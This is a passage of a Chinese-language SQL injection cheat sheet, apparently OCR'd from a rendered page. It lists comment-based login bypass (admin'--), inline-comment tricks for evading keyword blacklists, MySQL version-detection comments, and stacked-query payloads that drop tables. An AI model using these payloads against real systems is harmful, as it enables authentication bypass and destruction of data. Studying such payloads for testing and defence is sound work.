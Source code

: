 ##### 行末注释符

**注释掉行末其他部分：**

- `--`(SM) 
- `#`(M)

**在登录口注入的实例：**

- 用户名:`admin'--`
- `SELECT * FROM members WHERE username = 'admin'--' AND password = 'password'` 以上语句中 `—`后面的内容被注释，导致语句执行成功，从而绕过认证。

##### 语句中注释

可以用来绕过黑名单拦截，例如：

- `/*Comment Here*/` **(SM)**

  `DROP/*comment*/sampletable`

  `DR/**/OP/*bypass blacklisting*/sampletable`

  `SELECT/*avoid-spaces*/password/**/FROM/**/Members`

- `/*! MYSQL Special SQL *`/ (M) 这种情况只针对 Mysql 有效

  `SELECT /*!**32302** 1/0, */ 1 FROM tablename`

##### 经典的内联注入的攻击实例

- ID: `10; DROP TABLE members /*`
  像语句 `10; DROP TABLE members --` 是同样的效果
- `SELECT /*!**32302** 1/0, */ 1 FROM tablename`
  如果 MySQL 版本高于 3.23.02，那么就不会报错

##### MySQL 版本检测

- ID: `/*!``**32302** 10*/`
- ID: `10`
  如果 MySQL 版本高于 3.23.02，两个结果返回一致
- `SELECT /*!**32302** 1/0, */ 1 FROM tablename`
  如果 MySQL 版本高于 3.23.02，那么就不会报错

#### 堆叠查询

- `;` (S)
  `SELECT * FROM members; DROP members--`

结束一个查询，并开始下一个查询

##### 堆叠查询支持表

![img](https://mmbiz.qpic.cn/mmbiz_png/sGfPWsuKAfcvlqNqemtmU8gWoAfOu05dl8R7yrZibSSQSiavqz8o3vkia5vf0UvBELpI55UGjZ35YJw0hj8k4P9Ew/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)



##### 使用堆叠注入的攻击实例

- ID: `10;DROP members --`
- `SELECT * FROM products WHERE id = 10; DROP members--`

